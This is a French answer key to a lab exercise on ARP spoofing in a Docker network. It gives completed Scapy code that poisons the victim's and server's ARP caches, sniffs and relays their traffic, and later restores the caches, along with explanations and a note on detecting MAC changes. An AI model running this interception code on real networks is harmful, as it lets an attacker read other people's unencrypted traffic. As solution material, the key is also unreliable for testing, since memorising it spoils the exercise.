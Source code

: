 # Solutions du TP ARP Spoofing

## Exercice 1 : Compréhension du Docker Compose

1. **Réponse** : L'attaquant a besoin des capacités `NET_ADMIN` et `NET_RAW` car il doit :
   - `NET_ADMIN` : Modifier les tables ARP du système et configurer les interfaces réseau
   - `NET_RAW` : Créer et envoyer des paquets réseau bruts (paquets ARP falsifiés) avec Scapy

2. **Réponse** : Les adresses IP fixes sont utilisées pour :
   - Simplifier la configuration et éviter les problèmes de découverte
   - Permettre à l'attaquant de connaître précisément les adresses IP de ses cibles
   - Faciliter la compréhension du TP pour les étudiants
   - Éviter que DHCP ne change les adresses pendant la démo

## Exercice 2 : Analyse du comportement normal

1. **Réponse** : Dans les logs de la victime, on observe un pattern régulier de messages :
   - Un message indiquant le début du générateur de trafic
   - Des messages périodiques (toutes les 4 secondes) montrant les requêtes POST envoyées
   - Un message initial indiquant l'adresse MAC du serveur détectée
   - Les logs montrent des statuts HTTP 200 et les réponses du serveur

2. **Réponse** : Le serveur traite les requêtes de la victime en :
   - Affichant un message initial avec l'adresse MAC de la victime
   - Journalisant chaque requête reçue avec l'IP source, le user-agent et le corps
   - Si l'adresse MAC change pour une même IP, il affiche une alerte
   - Retournant une réponse JSON avec un statut "ok" et un écho du message reçu

## Exercice 3 : Code à compléter - L'attaquant

### 3.1 : Résolution d'adresse MAC

**Réponse** : La fonction `resolve_mac()` est essentielle car :
- Elle permet à l'attaquant de découvrir les adresses MAC réelles de la victime et du serveur
- Ces adresses MAC sont nécessaires pour construire les paquets ARP falsifiés
 Sans connaître les vraies MACs, l'attaquant ne pourrait pas cibler correctement ses paquets
- La fonction utilise `srp()` pour envoyer une requête ARP et capturer la réponse

**Code complété** :
```python
packet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=target_ip)
answered, _ = srp(packet, timeout=2, retry=3, iface=iface, verbose=0)
for _, response in answered:
    mac = response[Ether].src
```

### 3.2 : Empoisonnement ARP bidirectionnel 

```python
def poison_arp(victim_mac: str, server_mac: str, attacker_mac: str) -> None:
    """Diffuse en boucle deux réponses ARP falsifiées pour que victime et serveur me croient à l'autre bout."""
    log("starting ARP poisoning loop")
    frame_to_victim = Ether(dst=victim_mac, src=attacker_mac) / ARP(
        op=2, pdst=VICTIM_IP, hwdst=victim_mac, psrc=SERVER_IP, hwsrc=attacker_mac
    )
    frame_to_server = Ether(dst=server_mac, src=attacker_mac) / ARP(
        op=2, pdst=SERVER_IP, hwdst=server_mac, psrc=VICTIM_IP, hwsrc=attacker_mac
    )
    while not stop_event.is_set():
        # J'ai envoyé les deux paquets régulièrement pour garder les caches ARP contaminés.
        sendp(frame_to_victim, verbose=0, iface=INTERFACE)
        sendp(frame_to_server, verbose=0, iface=INTERFACE)
        time.sleep(POISON_INTERVAL)
    log("ARP poisoning loop stopped")
```

### 3.3 : Restauration des tables ARP légitimes

```python
def restore_arp(victim_mac: str, server_mac: str) -> None:
    """Réémet des annonces ARP légitimes côté victime et serveur afin de rendre leurs caches cohérents avant de quitter."""
    sendp(
        Ether(dst=victim_mac, src=server_mac)
        / ARP(op=2, pdst=VICTIM_IP, hwdst=victim_mac, psrc=SERVER_IP, hwsrc=server_mac),
        count=5,
        inter=0.2,
        verbose=0,
        iface=INTERFACE,
    )
    sendp(
        Ether(dst=server_mac, src=victim_mac)
        / ARP(op=2, pdst=SERVER_IP, hwdst=server_mac, psrc=VICTIM_IP, hwsrc=victim_mac),
        count=5,
        inter=0.2,
        verbose=0,
        iface=INTERFACE,
    )
```

### 3.4 : Interception et transfert des paquets

**Réponse** : L'attaquant détermine la direction en vérifiant :
- Les adresses IP source et destination dans le paquet
- Si `IP.src == VICTIM_IP et IP.dst == SERVER_IP` → "victim->server"
- Si `IP.src == SERVER_IP et IP.dst == VICTIM_IP` → "server->victim"
- Il modifie l'en-tête Ethernet pour que le paquet atteigne la prochaine machine sur le réseau local

**Code complété** :
```python
if packet[IP].src == VICTIM_IP and packet[IP].dst == SERVER_IP:
    direction = "victim->server"
    dst_mac = server_mac
elif packet[IP].src == SERVER_IP and packet[IP].dst == VICTIM_IP:
    direction = "server->victim"
    dst_mac = victim_mac

new_packet = Ether(src=attacker_mac, dst=dst_mac) / packet[IP]
```

### 3.5 : Capture des paquets Scapy

```python
def sniff_packets(victim_mac: str, server_mac: str, attacker_mac: str) -> None:
    """Démarre le sniffer Scapy sur l'interface et redirige chaque paquet pertinent vers le handler MITM."""
    log("starting packet sniffer")

    def handler(pkt):
        forward_packet(pkt, victim_mac, server_mac, attacker_mac)

    sniff(
        iface=INTERFACE,
        prn=handler,
        store=False,
        stop_filter=lambda _: stop_event.is_set(),
        filter=f"ip host {VICTIM_IP} and ip host {SERVER_IP}",
    )
```

## Exercice 4 : Analyse de l'attaque

1. **Réponse** : Dans les logs de l'attaquant, on observe :
   - Les messages de résolution d'adresses MAC initiales
   - Le démarrage de la boucle d'empoisonnement ARP
   - Le démarrage du sniffer de paquets
   - Des messages "captured HTTP victim->server" montrant l'interception des requêtes POST
   - Des messages "captured HTTP server->victim" montrant l'interception des réponses
   - Le contenu des requêtes et réponses est visible en clair

2. **Réponse** : La victime continue de fonctionner normalement car l'attaquant :
   - Active l'IP forwarding pour relayer les paquets
   - Modifie les en-têtes Ethernet pour que les paquets atteignent leurs destinations
   - Maintient les deux directions de communication (victime→serveur et serveur→victime)
   - Ne modifie pas le contenu des paquets, il les relaie simplement

3. **Réponse** : Au niveau des adresses MAC dans les logs de la victime :
   - Initialement, la victime détecte l'adresse MAC réelle du serveur
   - Après l'attaque, la victime voit l'adresse MAC de l'attaquant à la place de celle du serveur
   - Un message d'alerte s'affiche : "ARP cache serveur modifié: [ancienne_MAC] -> [nouvelle_MAC]"
   - Cela prouve que la table ARP de la victime a été empoisonnée

4. **Réponse** : Oui, l'attaquant peut lire le contenu des requêtes car :
   - Les logs montrent clairement le contenu JSON des requêtes POST
   - Les réponses HTTP avec leur contenu sont également visibles
   - L'attaquant voit les données en clair car la communication n'est pas chiffrée (HTTP)
   - Cela démontre le danger du MITM : interception de données sensibles

## Exercice 5 : Analyse du code de l'attaquant

1. **Réponse** : Dans la fonction `poison_arp()`, les deux paquets ARP envoyés sont :
   - `frame_to_victim` : Paquet ARP falsifié disant à la victime que l'IP du serveur correspond à la MAC de l'attaquant
   - `frame_to_server` : Paquet ARP falsifié disant au serveur que l'IP de la victime correspond à la MAC de l'attaquant
   - Les deux paquets sont de type ARP reply (op=2) pour mettre à jour les caches ARP

2. **Réponse** : L'attaquant doit maintenir l'empoisonnement en boucle car :
   - Les tables ARP ont une durée de vie limitée (timeout)
   - Les entrées ARP peuvent être rafraîchies par des requêtes légitimes
   - Si l'empoisonnement s'arrête, les caches se reconstitueront normalement
   - La boucle assure une interception continue du trafic

3. **Réponse** : Si vous commentez les lignes `sendp()` dans la boucle `poison_arp()` :
   - L'attaque ne fonctionne plus. Les paquets ARP falsifiés ne sont pas envoyés, donc les caches ARP ne sont pas corrompus.
   - Sans l'envoi régulier des paquets d'empoisonnement, les tables ARP restent légitimes. L'attaquant ne peut plus intercepter le trafic. Les logs de la victime ne montreront aucun changement d'adresse MAC.

---
